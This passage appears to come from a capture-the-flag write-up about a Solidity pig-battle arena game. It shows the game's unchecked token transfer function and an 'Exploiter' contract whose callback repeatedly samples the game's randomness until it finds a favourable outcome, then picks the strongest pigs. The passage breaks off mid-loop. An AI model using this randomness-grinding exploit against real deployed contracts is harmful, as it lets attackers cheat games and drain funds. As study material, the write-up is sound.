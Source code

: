     function transfer(address to, uint amount) public returns (bool) {
        uint256 rbalance = balanceOf[msg.sender];
        require(rbalance >= amount, "Too low");

        unchecked {
            balanceOf[msg.sender] = rbalance - amount;
            balanceOf[to] += amount;
        }

        return true;
    }
    ```

### Exploitation

```js
contract Exploiter {

    address immutable arena;
    Randomness immutable randomness;

    constructor(address _arena) {
        arena = _arena;
        randomness = Arena(_arena).randomness();
    }

    function acceptBattle(address, uint256) external returns (bool) {
        return true;
    }

    function tick(
        address,
        uint256,
        uint256,
        Arena.Pig[] memory fromPigs,
        Arena.Pig[] memory toPigs
    ) external returns (uint256 fromWhich, uint256 toWhich, uint256 r) {
        uint seed;
        uint nxt;
        while (gasleft() > 5000) {  // try to find a good seed
            seed = randomness.random();
            r = uint(keccak256(abi.encodePacked(block.prevrandao, arena, seed)));
            nxt = uint(keccak256(abi.encodePacked(block.prevrandao, arena, r))) % 100;
            if ((nxt < 50 && 50 - nxt >= 10) || (nxt > 50 && nxt - 50 >= 10)) {
                break;
            }
        }
        r = r % 100;

        fromWhich = 0;
        toWhich = 0;
        uint256 maxAttack = 0;
        for (uint256 i = 0; i < fromPigs.length; i++)
        {
            if (fromPigs[i].health > 0 && fromPigs[i].attack > maxAttack) {
                maxAttack = fromPigs[i].attack;
                fromWhich = i;
            }
        }
        maxAttack = 0;
        for (uint256 i = 0; i < toPigs.length; i++) {
            if (toPigs[i].health > 0 && toPigs[i].attack > maxAttack) {
                maxAttack = toPigs[i].attack;
                toWhich = i;
            }
```